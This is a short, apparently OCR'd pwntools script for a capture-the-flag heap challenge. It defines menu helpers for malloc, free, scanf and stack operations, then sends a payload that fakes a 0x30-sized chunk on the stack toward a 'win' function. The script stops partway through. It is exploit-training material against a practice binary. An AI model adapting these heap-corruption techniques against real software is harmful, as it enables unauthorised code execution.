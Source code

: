 ```python

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def stack_free():
    target.sendlineafter(b": ", b"stack_free")


def stack_scanf(data):
    target.sendlineafter(b": ", b"stack_scanf")
    target.sendline(data)


def stack_malloc_win():
    target.sendlineafter(b": ", b"stack_malloc_win")


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0x20)

    payload = flat(
        b"A" * 0x30,
        0,
        0x30,
    )
    # raw_input("DEBUG")
    stack_scanf(payload)
```